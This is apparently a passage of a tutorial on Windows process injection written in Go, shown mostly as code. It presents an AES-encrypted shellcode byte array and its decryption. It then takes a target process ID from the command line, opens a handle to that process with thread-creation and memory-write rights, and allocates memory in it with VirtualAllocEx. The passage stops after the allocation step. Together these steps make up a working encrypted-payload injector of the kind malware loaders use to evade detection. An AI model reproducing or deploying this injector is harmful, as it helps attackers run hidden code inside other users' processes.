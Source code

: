 ```go
payloadEncrypted := []byte{31, 37, 251, 239, 216, 154, 149, 91, 247, 184, 40, 165, 246, 11, 158, 116, 212, 106, 242, 58, 217, 3, 178, 64, 191, 125, 106, 38, 188, 236, 209, 157, 71, 238, 163, 111, 42, 128, 196, 28, 148, 39, 247, 102, 111, 106, 53, 198, 227, 207, 138, 44, 134, 102, 4, 160, 171, 122, 246, 217, 81, 183, 7, 224, 247, 122, 202, 86, 165, 34, 124, 77, 184, 70, 9, 171, 152, 198, 178, 150, 92, 80, 26, 120, 64, 161, 182, 41, 14, 108, 189, 69, 30, 73, 6, 42, 33, 154, 74, 21, 111, 26, 50, 7, 124, 72, 186, 219, 16, 192, 153, 79, 22, 137, 90, 244, 240, 32, 40, 164, 132, 22, 125, 62, 19, 132, 215, 77, 170, 231, 227, 173, 188, 182, 51, 151, 119, 14, 168, 118, 140, 75, 1, 86, 63, 19, 105, 95, 145, 95, 183, 149, 170, 40, 22, 219, 151, 213, 32, 92, 92, 250, 73, 193, 195, 1, 19, 136, 135, 123, 148, 25, 245, 108, 113, 164, 172, 53, 164, 222, 121, 244, 53, 89, 113, 126, 64, 108, 206, 151, 22, 50, 47, 58, 84, 244, 109, 185, 207, 194, 107, 177, 16, 172, 60, 177, 250, 217, 236, 206, 147, 142, 137, 198, 10, 172, 238, 166, 120, 148, 151, 120, 119, 130, 124, 25, 252, 162, 172, 119, 170, 67, 37, 158, 33, 24, 106, 188, 182, 73, 144, 216, 225, 225, 2, 229, 224, 227, 120, 157, 174, 137, 3, 109, 179, 99, 43, 188, 31, 29, 167, 179, 177, 219, 226, 203, 230, 115, 175, 245, 128, 33, 194, 69, 151, 108, 232, 248, 137, 154, 11, 0, 158, 162, 20, 138, 135, 170, 97, 212, 97, 46, 138, 71, 188, 130, 50, 34, 109, 240, 185, 59, 117, 165 }


ppayloadDecrypted := cipher.AesDecrypt(&key, &payloadEncrypted)

```

Note that `ppayloadDecrypted` is of type `*[]byte`

### Opening Handle to the remote process

We take the PID of the remote process from the command line using Go flag package.

```go
pid := flag.Int("pid", 0, "the pid of the process to inject too")
flag.Parse()
```

Then we use the `OpenProcess` windows api to get a Handle.

```go
phandle, err := windows.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_OPERATION|windows.PROCESS_VM_WRITE|windows.PROCESS_VM_READ|windows.PROCESS_QUERY_INFORMATION, true, uint32(*pid))
if err != nil {
	fmt.Println("failed to open handle on process")
	fmt.Println(err.Error())
```


### Allocating Memory

To allocate memory `VirtualAllocEx` is needed. We can Load `kernel32.dll` as a lazy dll, then find the call in that dll, then do the actual call.

```go
kernel32DLL := windows.NewLazySystemDLL("kernel32.dll")
VirtualAllocEx := kernel32DLL.NewProc("VirtualAllocEx")
pShellCodeAddress, _, err := VirtualAllocEx.Call(uintptr(phandle), 0, uintptr(len(*ppayloadDecrypted)), windows.MEM_COMMIT | windows.MEM_RESERVE, windows.PAGE_READWRITE)
if err != nil && err.Error() != "The operation completed successfully." {
	fmt.Println("Failed to VirtuAllocEx")
	fmt.Println(err)
}
```
